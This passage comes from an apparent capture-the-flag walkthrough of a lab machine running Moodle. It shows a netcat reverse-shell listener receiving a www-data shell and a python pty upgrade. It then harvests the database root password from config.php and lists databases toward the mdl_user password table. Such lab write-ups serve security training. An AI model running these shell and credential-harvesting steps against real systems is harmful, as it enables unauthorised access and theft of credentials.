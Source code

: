 This'll spawn a shell for us:

```
# nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.23] from (UNKNOWN) [10.10.10.153] 49210
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
python -c 'import pty;pty.spawn("/bin/bash")'
www-data@teacher:/var/www/html/moodle/question$
```

### Getting access to giovanni user

Like any web application with a database backend, the first thing I do once I get a shell is look for hardcoded database credentials in the PHP configuration file of the application. The Moodle configuration file contains the `root` account password for the MySQL database:

```
www-data@teacher:/var/www/html/moodle$ cat config.php
<?php  // Moodle configuration file
[...]
$CFG->dbtype    = 'mariadb';
$CFG->dblibrary = 'native';
$CFG->dbhost    = 'localhost';
$CFG->dbname    = 'moodle';
$CFG->dbuser    = 'root';
$CFG->dbpass    = 'Welkom1!';
```

List of databases:
```
MariaDB [(none)]> show databases;
show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| moodle             |
| mysql              |
| performance_schema |
| phpmyadmin         |
+--------------------+
```

The `mdl_user` table contains passwords:
```
MariaDB [moodle]> show tables;
show tables;
+----------------------------------+
| Tables_in_moodle                 |
+----------------------------------+
...
| mdl_user                         |
...
```
